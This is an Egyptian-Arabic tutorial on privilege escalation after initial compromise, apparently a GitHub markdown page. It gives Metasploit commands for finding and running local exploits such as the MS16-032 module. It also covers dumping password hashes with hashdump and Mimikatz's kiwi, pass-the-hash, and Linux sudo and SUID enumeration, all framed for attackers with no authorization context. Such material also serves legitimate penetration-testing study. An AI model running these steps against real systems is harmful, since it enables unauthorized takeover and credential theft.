 # **تصعيد الصلاحيات بعد الاستغلال (Privilege Escalation) – ببساطة!**

## **📌 يعني إيه Privilege Escalation؟**

لما بتستغل ثغرة وتاخد **وصول مبدئي (Initial Access)** على الجهاز المستهدف، ممكن تكون الصلاحيات بتاعتك **محدودة**، يعني مش Administrator أو Root. **تصعيد الصلاحيات (Privilege Escalation)** هو إنك تزوّد صلاحياتك عشان تبقى **مدير النظام** وتقدر تتحكم بشكل كامل في الجهاز.

**📌 مثال بسيط:**  
لو اخترقت جهاز **كـ User عادي**، مش هتقدر توصل لملفات حساسة أو تنفذ أوامر خطيرة، لكن لو قدرت تصعد صلاحياتك لـ **Admin أو SYSTEM**، هتقدر تعمل كل حاجة!

---

## **🔥 طرق تصعيد الصلاحيات بعد الاختراق**

### **🟢 1. استغلال الثغرات في النظام (Kernel Exploits)**

🔹 بعض الأنظمة عندها ثغرات تسمح لك تصعد صلاحياتك مباشرة، زي:  
✅ **DirtyCow** في أنظمة Linux  
✅ **MS10-015** و **MS16-032** في Windows

📌 في **Metasploit**، ممكن تستخدم أوامر البحث عن ثغرات تصعيد الصلاحيات كالتالي:

```bash
search exploit/windows/local
search exploit/linux/local
```

🔹 بعد كده تختار الاستغلال المناسب وتنفذه بنفس أسلوب أي استغلال عادي.

---

### **🟢 2. استخراج كلمات المرور المخزنة (Password Dumping)**

لو قدرت توصل لـ **كلمات المرور**، ممكن تسجل دخول بحساب مسؤول مباشرة! 👀  
📌 في **Meterpreter**، تقدر تستخدم الأوامر دي لسحب كلمات المرور:

```bash
hashdump    # لو عندك صلاحيات SYSTEM في ويندوز
kiwi        # استخدام Mimikatz داخل Meterpreter
```

🔹 ولو عايز تجرب كلمات المرور دي على باقي الأجهزة في الشبكة، استخدم **Pass-the-Hash Attack**!

---

### **🟢 3. استغلال خدمات بتشتغل بصلاحيات عالية (Service Exploits)**

🔹 بعض الخدمات على الجهاز بتشتغل بصلاحيات المسؤول، ولو لقيت خدمة ضعيفة، ممكن تستغلها لتصعيد الصلاحيات.  
📌 في **Metasploit**، جرب تبحث عن استغلال للخدمات كده:

```bash
search exploit/windows/local
```

---

### **🟢 4. التلاعب بالملفات الحساسة (Sudo & SUID in Linux, Misconfigurations in Windows)**

🔹 في Linux، لو لقيت **ملف SUID** أو **أمر عنده صلاحيات sudo** بدون كلمة مرور، تقدر تستخدمه عشان تصعد الصلاحيات.  
📌 جرب تشوف الأوامر اللي تقدر تنفذها بـ sudo بدون باسورد:

```bash
sudo -l
```

🔹 ولو لقيت ملف عنده SUID، شغّله كده عشان تشوف لو يقدر يديك صلاحيات أعلى:

```bash
find / -perm -u=s -type f 2>/dev/null
```

---

## **💡 الخلاصة بالمصري:**

1️⃣ **بعد ما تخترق جهاز، ممكن يكون دخولك بصلاحيات قليلة، وده هيمنعك من تنفيذ حاجات كتير.**  
2️⃣ **فيه طرق كتير لتصعيد الصلاحيات، زي استغلال ثغرات النظام، استخراج كلمات المرور، أو تشغيل أوامر بصلاحيات مرتفعة.**  
3️⃣ **لو انت على ويندوز، استخدم `hashdump` أو `kiwi` لسحب كلمات السر.**  
4️⃣ **لو على لينكس، استخدم `sudo -l` و `find / -perm -u=s` عشان تدور على أوامر ممكن تستخدمها بصلاحيات أعلى.**  
5️⃣ **بعد ما تصعد الصلاحيات، هيكون عندك تحكم كامل في النظام وتقدر تتحرك بحرية أكتر!** 🔥

---

## **🛠️ الخطوات العملية لتصعيد الصلاحيات في Metasploit**

✅ **1. البحث عن ثغرات تصعيد الصلاحيات:**

```bash
search exploit/windows/local
search exploit/linux/local
```

✅ **2. تنفيذ استغلال مناسب:**

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
exploit
```

✅ **3. استخراج كلمات المرور:**

```bash
hashdump
kiwi
```

✅ **4. البحث عن خدمات ضعيفة:**

```bash
ps
```

✅ **5. فحص صلاحيات المستخدم:**

```bash
whoami
getuid
```

✅ **6. التحقق من صلاحيات SUDO في Linux:**

```bash
sudo -l
```

✅ **7. البحث عن ملفات SUID في Linux:**

```bash
find / -perm -u=s -type f 2>/dev/null
```

🎯 **بمجرد ما تصعد صلاحياتك، هتتحكم في الجهاز بشكل كامل وتنفذ أي أمر عايزه!** 🔥